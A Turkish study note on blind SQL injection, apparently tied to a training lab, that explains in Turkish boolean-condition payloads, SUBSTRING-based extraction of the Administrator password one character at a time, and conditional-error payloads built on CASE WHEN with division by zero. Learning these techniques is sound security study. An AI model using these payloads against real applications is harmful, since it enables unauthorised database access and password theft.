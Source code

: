 # Blind SQL injection

### Tanım
- SELECT * FROM sessions WHERE TrackingId = 'xyz123';
- SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='1'
- SELECT * FROM users WHERE TrackingId = 'xyz' AND '1'='2'

-------------------------------------

- ==> SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
    - SELECT TrackingId → TrackingId sütunundaki değeri alır.
    - FROM TrackedUsers → TrackedUsers tablosundan veri çeker.
    - WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' → Sadece belirli bir TrackingId değerine sahip satırları döndürür.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'

    -     SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1)
        - "Administrator" kullanıcısının şifresinin ilk karakterini alır.
    - > 'm'
        - Şifrenin ilk harfinin 'm'den büyük olup olmadığını kontrol eder.
        - Eğer doğruysa, sorgu başarılı olur ve veri döner.
        - Eğer yanlışsa, sorgu başarısız olur ve veri dönmez.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'

📌 Açıklama:

    CASE WHEN (1=2) THEN 1/0 ELSE 'a' END
        (1=2) → FALSE döner
        FALSE olursa 'a' döner.
        TRUE olsaydı 1/0 çalışarak sıfıra bölme hatası oluşturacaktı.

    (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a'
        Burada CASE ifadesi 'a' döndürdüğü için sorgu başarıyla çalışır ve veri dönebilir.
        Eğer (1=2) yerine (1=1) yazılsaydı, 1/0 işlemi hata oluştururdu.

Bu teknikle saldırgan şunları test edebilir:

    SQL Injection var mı?
        Hata mesajı alırsa, SQL Injection zafiyeti var demektir.
    Hata tabanlı saldırılar mümkün mü?
        Eğer hata mesajı alınabiliyorsa (1/0 sıfıra bölme hatası gibi), saldırgan hata tabanlı SQL Injection kullanabilir.

-------------------------------------

SELECT * FROM Users WHERE TrackingId = 'xyz' 
AND (SELECT CASE 
        WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
        THEN 1/0 
        ELSE 'a' 
      END FROM Users)='a'

-------------------------------------